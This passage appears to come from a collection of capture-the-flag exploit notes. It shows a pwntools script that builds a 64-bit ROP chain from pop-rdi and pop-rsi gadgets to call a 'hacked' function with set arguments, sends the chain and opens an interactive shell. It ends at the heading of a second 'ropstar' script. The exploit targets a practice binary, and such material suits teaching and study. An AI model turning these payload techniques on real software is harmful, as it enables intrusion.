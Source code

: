       # ===========================================================
      #                    EXPLOIT GOES HERE
      # ===========================================================
      
      # Pass in pattern_size, get back EIP/RIP offset
      offset = find_ip(cyclic(200))
      
      # Start program
      io = start()
      
      # POP RDI gadget found with ropper
      pop_rdi = 0x40124b
      # POP RSI; POP R15 gadget found with ropper
      pop_rsi_r15 = 0x401249
      
      # Build the payload
      payload = flat({
          offset: [
              pop_rdi,  # Pop the next value to RDI
              0xdeadbeefdeadbeef,
              pop_rsi_r15,  # Pop the next value to RSI (and junk into R15)
              0xc0debabec0debabe,
              0x0,
              # With params in correct registers, call hacked function
              elf.functions.hacked
          ]
      })
      
      # Save the payload to file
      write('payload', payload)
      
      # Send the payload
      io.sendlineafter(b':', payload)
      
      # Get flag
      io.interactive()
      ```
### 10. 64 bit ropstar script
      ```
      from pwn import *
      